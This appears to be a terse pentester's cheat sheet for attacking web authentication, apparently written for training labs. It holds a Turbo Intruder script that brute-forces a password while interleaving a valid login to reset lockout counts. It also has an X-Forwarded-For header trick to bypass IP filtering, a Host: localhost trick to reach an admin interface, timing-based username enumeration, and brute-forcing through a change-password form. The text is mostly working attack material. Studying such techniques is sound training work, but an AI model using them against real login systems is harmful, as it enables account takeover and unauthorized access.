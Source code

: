 [#](#) Authentication

Bypass IP Filtering:

    X-Forwarded-For: foo
    
    Reset lock counts upon successful?

    ```
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )

        for word in open('C:\Users\srbx7\Desktop\lists\password.txt'):
            engine.queue(target.req, ["wiener","peter"])
            engine.queue(target.req, ["carlos",word.rstrip()])


    def handleResponse(req, interesting):
        # currently available attributes are req.status, req.wordcount, req.length and req.response
        if req.status == 302:
            table.add(req)
    ```
Time based enumeration (add long password ;) )

Can't bypass IP Filtering?

    Is there an admin interface /admin
    
       Host: localhost
       
    Fuzz no matter what, and grep negative for error?

Change Password:

    - POST Change Username?
    - POST username=wiener&current=peter&new_1=AAAA&new_2=BBBB
        - > New Passwords do not match > Bruteforce
